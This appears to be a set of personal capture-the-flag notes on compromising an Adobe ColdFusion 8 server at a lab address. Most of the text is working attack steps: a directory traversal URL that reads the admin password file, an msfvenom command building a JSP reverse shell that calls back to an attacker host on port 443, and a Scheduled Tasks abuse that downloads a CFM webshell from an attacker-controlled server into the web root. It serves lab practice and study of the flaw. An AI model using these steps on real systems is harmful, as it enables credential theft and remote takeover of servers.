




_____

/CFIDE/
/cddocs

# administrator/enter.cfm



https://www.exploit-db.com/exploits/14641 

## Directory Traversal

```bash
http://$IP/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```



# Upload reverse shell

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.26 LPORT=443 -f raw > shell.jsp
```

https://nets.ec/Coldfusion_hacking#Writing_Shell_to_File

Debugging & Logging > Scheduled Tasks



- `Task Name`: Anything I want
- `URL`: URL I control from which to get a CFM shell. Turns out Kali has a CFM webshell in `/usr/share/webshells/cfm`. I started a Python webserver in that directory.
- `Publish`: Check the “Save output to a file” box.
- `File`: The path I got from the mappings tab, plus the name of the shell and `.cfm`.



Access `http://10.10.10.11:8500/CFIDE/` to execute the shell,
